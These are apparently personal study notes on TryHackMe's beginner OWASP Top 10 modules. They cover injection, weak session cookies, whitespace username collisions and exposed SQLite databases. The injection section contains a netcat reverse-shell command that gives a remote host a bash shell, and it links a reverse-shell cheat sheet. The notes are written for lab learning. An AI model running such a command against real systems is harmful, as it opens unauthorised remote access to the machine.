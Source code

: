 # TryHackMe: Complete Beginner

**author**:: Nathan Acks  
**date**:: 2021-10-05

## OWASP Top 10

### (Severity 01) Injection

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like:

```bash
nc -e /bin/bash $LOCAL_IP $LOCAL_PORT
```

I'm pretty sure that this would have allowed us to avoid all of the named-pipe-magic that Metsploit generated a couple of days ago... Though I'm also pretty sure that Metasploit's code is more robust (since it will work with versions of nc that *don't* support the -e flag).

[A library of reverse shell methods.](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Injection attacks can be divided into two broad classes:

BLIND attacks are ones where command output is not returned to the attacker in a server response.

ACTIVE attacks are those where the command output *is* returned to the attacker in a server response.

* [2021-10-02 - TryHackMe: Complete Beginner](2021-10-02-tryhackme-complete-beginner.md)

### (Severity 02) Broken Authentication

Sometimes you don't need to steal a session cookie... If the webserver isn't setting session cookies in a sufficiently random fashion, *forging* one can become an option!

The TryHackMe tutorial implies that a common mistake is to allow the registration of a username that matches an existing user but with a leading or trailing whitespace character; sometimes this new user will be interpreted to be the same as the old user (the one without the whitespace), resulting in the same level of access as that user.

Honestly, I'm trying to imagine how this would happen in most realistic contexts. Yes, it's easy to construct an example in Bash (etc.), but most languages I've seen web apps written it take string quoting a lot more seriously.

### (Severity 03) Sensitive Data Exposure

So, the trick this section is talking about is that some small web applications use SQLite databases, and a sloppy webdev might store the database file in the application webroot where it can be downloaded and then read at our leisure.
